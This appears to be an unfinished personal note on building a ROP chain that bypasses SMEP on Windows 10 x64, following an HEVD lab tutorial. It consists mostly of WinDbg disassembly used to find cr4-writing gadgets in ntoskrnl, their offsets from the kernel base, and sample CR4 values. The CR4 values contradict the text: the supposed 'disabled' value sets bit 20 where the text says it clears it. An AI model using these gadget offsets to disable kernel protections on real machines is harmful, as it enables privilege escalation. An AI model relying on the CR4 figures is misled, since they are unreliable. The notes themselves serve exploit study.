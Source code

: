 # Local SMEP bypass via Ropchain Windows10 64bit

> :warning: **This is just some notes for myself.**: Full credits and detailed explanation where i copied most of it comes from the following blog(s)
> https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/

We first need the kernel base adress. With WinDbg this can be achieved by looking for the `nt` loaded modules via `lm sm`. On my Microsoft Windows machine `Version 10.0.18362.30`) it looks like the following.

```C
0: kd> lmDvmnt
Browse full module list
start             end                 module name
fffff805`3c6b5000 fffff805`3d167000   nt         (pdb symbols)          c:\symbols\ntkrnlmp.pdb\35A038B1F6E2E8CAF642111E6EC66F571\ntkrnlmp.pdb
    Loaded symbol image file: ntkrnlmp.exe
    Image path: ntkrnlmp.exe
    Image name: ntkrnlmp.exe
    Browse all global symbols  functions  data
    Image was built with /Brepro flag.
    Timestamp:        E2F1A52B (This is a reproducible build file hash, not a timestamp)
    CheckSum:         00980B26
    ImageSize:        00AB2000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
    Information from resource tables:
```

The cr4 register holds information about if smep is turned on or off in the 20th bit. Any kernel executable that has rop gadgets to flip this bit would now be suffienct to disable rop. Abachy found two short gadgets that let us pop a value into rcx and then move it into cr4 to effectively disable smep.


The pop rcx can be found here in `HvlEndSystemInterrupt`.


```C
0: kd> uf HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff805`3c86dc00 4851            push    rcx
fffff805`3c86dc02 50              push    rax
fffff805`3c86dc03 52              push    rdx
fffff805`3c86dc04 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff805`3c86dc0d b970000040      mov     ecx,40000070h
fffff805`3c86dc12 0fba3200        btr     dword ptr [rdx],0
fffff805`3c86dc16 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff805`3c86dc1e)  Branch

nt!HvlEndSystemInterrupt+0x18:
fffff805`3c86dc18 33c0            xor     eax,eax
fffff805`3c86dc1a 8bd0            mov     edx,eax
fffff805`3c86dc1c 0f30            wrmsr

nt!HvlEndSystemInterrupt+0x1e:
fffff805`3c86dc1e 5a              pop     rdx
fffff805`3c86dc1f 58              pop     rax
fffff805`3c86dc20 59              pop     rcx # We are interested in a pop rcx
fffff805`3c86dc21 c3              ret
```

The next one that writes the value from rcx into crx can be found in `nt!KiEnableXSave`.


``` C
0: kd> uf nt!KiEnableXSave
nt!KiEnableXSave:
fffff805`3cc50190 0f20e1          mov     rcx,cr4
fffff805`3cc50193 48f7053242fdff00008000 test qword ptr [nt!KeFeatureBits (fffff805`3cc243d0)],800000h
fffff805`3cc5019e b800000400      mov     eax,40000h
fffff805`3cc501a3 0f842a5e0000    je      nt!KiEnableXSave+0x5e43 (fffff805`3cc55fd3)  Branch

nt!KiEnableXSave+0x19:
fffff805`3cc501a9 4885c8          test    rax,rcx
fffff805`3cc501ac 7453            je      nt!KiEnableXSave+0x71 (fffff805`3cc50201)  Branch

nt!KiEnableXSave+0x1e:
fffff805`3cc501ae 48bad803000080f7ffff mov rdx,0FFFFF780000003D8h
fffff805`3cc501b8 33c9            xor     ecx,ecx
fffff805`3cc501ba 488b12          mov     rdx,qword ptr [rdx]
fffff805`3cc501bd 488bc2          mov     rax,rdx
fffff805`3cc501c0 48c1ea20        shr     rdx,20h
fffff805`3cc501c4 0f01d1          xsetbv
fffff805`3cc501c7 48baf005000080f7ffff mov rdx,0FFFFF780000005F0h
fffff805`3cc501d1 488b12          mov     rdx,qword ptr [rdx]
fffff805`3cc501d4 4885d2          test    rdx,rdx
fffff805`3cc501d7 0f85e35d0000    jne     nt!KiEnableXSave+0x5e30 (fffff805`3cc55fc0)  Branch

nt!KiEnableXSave+0x4d:
fffff805`3cc501dd 65488b0c2520000000 mov   rcx,qword ptr gs:[20h]
fffff805`3cc501e6 488d81f0010000  lea     rax,[rcx+1F0h]
fffff805`3cc501ed 483981c0620000  cmp     qword ptr [rcx+62C0h],rax
fffff805`3cc501f4 740a            je      nt!KiEnableXSave+0x70 (fffff805`3cc50200)  Branch

nt!KiEnableXSave+0x66:
fffff805`3cc501f6 8189c862000040001000 or  dword ptr [rcx+62C8h],100040h

nt!KiEnableXSave+0x70:
fffff805`3cc50200 c3              ret  Branch

nt!KiEnableXSave+0x71:
fffff805`3cc50201 480bc8          or      rcx,rax
fffff805`3cc50204 0f22e1          mov     cr4,rcx
fffff805`3cc50207 eba5            jmp     nt!KiEnableXSave+0x1e (fffff805`3cc501ae)  Branch

nt!KiEnableXSave+0x5e30:
fffff805`3cc55fc0 488bc2          mov     rax,rdx
fffff805`3cc55fc3 b9a00d0000      mov     ecx,0DA0h
fffff805`3cc55fc8 48c1ea20        shr     rdx,20h
fffff805`3cc55fcc 0f30            wrmsr
fffff805`3cc55fce e90aa2ffff      jmp     nt!KiEnableXSave+0x4d (fffff805`3cc501dd)  Branch

nt!KiEnableXSave+0x5e43:
fffff805`3cc55fd3 4885c8          test    rax,rcx
fffff805`3cc55fd6 0f8424a2ffff    je      nt!KiEnableXSave+0x70 (fffff805`3cc50200)  Branch

nt!KiEnableXSave+0x5e4c:
fffff805`3cc55fdc 480fbaf112      btr     rcx,12h
fffff805`3cc55fe1 0f22e1          mov     cr4,rcx # We are interested in this gadget
fffff805`3cc55fe4 c3              ret
``` 


It's now time to calculate the offset for the different gadgets, so that they can be used at least with dynamical ntkernel base address.

Gadget 1 for pop rcx can be found at kernelbase + 0x001b8c20 . 
```C
0: kd> ? fffff8053c86dc20 - fffff8053c6b5000
Evaluate expression: 1805344 = 00000000`001b8c20
```

Gadget 2 for mov rc4,rcx can be found at kernelbase + 0x005a0fe1 .
```C
0: kd> ? fffff8053cc55fe1 - fffff8053c6b5000
Evaluate expression: 5902305 = 00000000`005a0fe1
```

Currently SMEP is enabled on my machine and cr4 holds the value:
```C
[+] CR4 hex: 0x00000000002506f8
[+] CR4 bin: 000000000000000000000000000000000000000001001010000011011111000
```

To disable SMEP cr4 the 20th bit in cr4 should be switched to 0, which corresponds to these new value:

```c
[+] CR4 hex: 0x00000000003506f8
[+] CR4 bin: 0000000000000000000000000000000000000000001101010000011011111000
```


So now let's bring everthing together. tbc...